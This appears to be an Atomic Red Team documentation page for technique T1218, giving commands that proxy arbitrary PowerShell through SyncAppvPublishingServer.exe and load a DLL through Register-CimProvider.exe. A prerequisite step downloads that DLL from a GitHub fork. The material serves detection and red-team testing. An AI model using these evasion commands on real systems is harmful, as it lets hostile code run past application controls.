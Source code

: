 


<br/>
<br/>

## Atomic Test #2 - SyncAppvPublishingServer - Execute arbitrary PowerShell code
Executes arbitrary PowerShell code using SyncAppvPublishingServer.exe. Requires Windows 10.

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| powershell_code | PowerShell code to execute | string | Start-Process calc.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
SyncAppvPublishingServer.exe "n; #{powershell_code}"
```






<br/>
<br/>

## Atomic Test #3 - Register-CimProvider - Execute evil dll
Execute arbitrary dll. Requires at least Windows 8/2012. Also note this dll can be served up via SMB

**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dll_payload | DLL to execute | Path | PathToAtomicsFolder&#92;T1218&#92;src&#92;Win32&#92;T1218-2.dll|


#### Attack Commands: Run with `command_prompt`! 


```cmd
C:\Windows\SysWow64\Register-CimProvider.exe -Path #{dll_payload}
```




#### Dependencies:  Run with `powershell`!
##### Description: T1218-2.dll must exist on disk at specified location (#{dll_payload})
##### Check Prereq Commands:
```powershell
if (Test-Path #{dll_payload}) {exit 0} else {exit 1} 
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory (split-path #{dll_payload}) -ErrorAction ignore | Out-Null
Invoke-WebRequest "https://github.com/emrahkaya/atomic-red-team/raw/feature/v6/atomics/T1218/src/Win32/T1218-2.dll" -OutFile "#{dll_payload}"
```